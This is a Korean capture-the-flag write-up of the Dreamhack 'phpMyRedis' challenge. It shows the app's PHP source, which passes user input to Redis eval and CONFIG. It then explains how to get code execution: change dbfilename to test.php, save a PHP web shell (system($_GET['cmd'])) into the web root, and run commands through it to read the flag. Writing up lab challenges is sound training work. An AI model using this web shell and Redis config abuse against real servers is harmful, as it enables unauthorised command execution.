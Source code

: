 ```yaml
---
title : Dreamhack - phpMyRedis
date: 2022-04-08 22:11 +0900
categories: [Dreamhack, Webhacking]
tags: [redis, dreamhack, dreamhack phpmyredis, wargame]
---
```


## phpMyRedis
<hr style="border-top: 1px solid;"><br>

![index.php](https://user-images.githubusercontent.com/52172169/162443204-9116725d-d3b5-46c1-b8b4-8a9975a67608.png)

<br>

index.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/config.php" class="card-footer-item">Config</a></div>
                    </div>
                </div>
                <form method="post">
                    <div class="field">
                        <label class="label">Command</label>
                        <div class="control">
                            <textarea class="textarea" name="cmd"><?=isset($_POST['cmd'])?$_POST['cmd']:'return 1;'?></textarea>
                        </div>
                        <label class="checkbox">
                            <input type="checkbox" name="save">Save
                        </label>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
            </div>
        </div>
        <br/>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">Command History</h1>
                    </div>
                    <div class="column is-2"><a href="/reset.php" class="card-footer-item">Reset</a></div>
                </div>
                <div class="content">
                    <ul>
                    <?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
                    </ul>
                </div>
            </div>
        </div>
    </body>
</html>
```

<br>

![config.php](https://user-images.githubusercontent.com/52172169/162443259-15a8f377-3b78-405d-beed-953027a2ad40.png)

<br>

config.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/" class="card-footer-item">Command</a></div>
                    </div>
                </div>
                <form method="post">
                    <label class="label">Config</label>
                    <div class="field">
                        <div class="control">
                            <div class="select">
                                <select name="option">
                                    <option>GET</option>
                                    <option>SET</option>
                                </select>
                            </div>
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Key</label>
                        <div class="control">
                            <input class="input" type="text" name="key">
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Value</label>
                        <div class="control">
                            <input class="input" type="text" name="value">
                        </div>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
            </div>
        </div>
    </body>
</html>
```


<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

phpredis, eval, config
: <a href="https://github.com/phpredis/phpredis" target="_blank">github.com/phpredis/phpredis</a>
: <a href="https://github.com/phpredis/phpredis#eval" target="_blank">github.com/phpredis/phpredis#eval</a>
: <a href="https://github.com/phpredis/phpredis#config" target="_blank">github.com/phpredis/phpredis#config</a>

<br>

Scripting with Lua
: <a href="https://redis.io/docs/manual/programmability/eval-intro/" target="_blank">redis.io/docs/manual/programmability/eval-intro/</a>

Redis Lua API Ref
: <a href="https://redis.io/docs/manual/programmability/lua-api/#a-namerediscalla-rediscallcommand-arg" target="_blank">redis.io/docs/manual/programmability/lua-api/#a-namerediscalla-rediscallcommand-arg</a>

<br>

redis config get
: <a href="http://redisgate.kr/redis/server/config_get.php" target="_blank">redisgate.kr/redis/server/config_get.php</a>
: <a href="https://bstar36.tistory.com/349" target="_blank">bstar36.tistory.com/349</a>

<br>

강의를 보면 아래와 같은 설명이 있다.
: Redis는 메모리에 데이터를 저장하는 인 메모리(In-Memory) 데이터베이스입니다.
: 메모리는 휘발성이라는 특징을 갖고 있기 때문에 데이터 손실 방지를 위해 일정 시간마다 메모리 데이터를 파일 시스템에 저장합니다. 
: Redis는 명령어를 이용해 메모리 데이터를 저장하는 파일의 저장 주기를 지정하거나 즉시 저장할 수 있으며 저장되는 파일의 경로와 이름, 그리고 저장할 데이터를 함께 설정할 수 있습니다.

<br>

따라서 저장되는 파일의 이름을 내가 원하는 값으로 변경한 후 접근 가능한 디렉토리(```/var/www/html``` or ```/var/www/html/data```)에 있으면 되는 것이다.

<br>

```config get *```을 해주면 모든 설정값이 나오는데 그 중 dbfilename, dir, save 값을 확인하면 아래와 같다.

----> ```"dir":"\/var\/www\/html",  "dbfilename":"dump.rdb" , "save":"3600 1 300 100 60 10000"```

<br>

현재 설정 값을 ```config set dbfilename test.php```, ```config set save 10 1```로 변경하였다.

그 후 Command 페이지에서 ```return redis.call('set','test',"<?php system($_GET['cmd']); ?>");```을 입력해준 뒤 ```/test.php?cmd=ls```를 하면 ls 명령어가 실행된다.

<br>

플래그가 ```/flag```에 있으므로 출력했으나 아무것도 나오지 않았고, ```file /flag```를 하니 ```executable, regular file, no read permission```이라고 떴다.

권한을 보니 execute 권한만 있었다. 따라서 ```cd /; ./flag```를 하니 플래그가 나왔다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

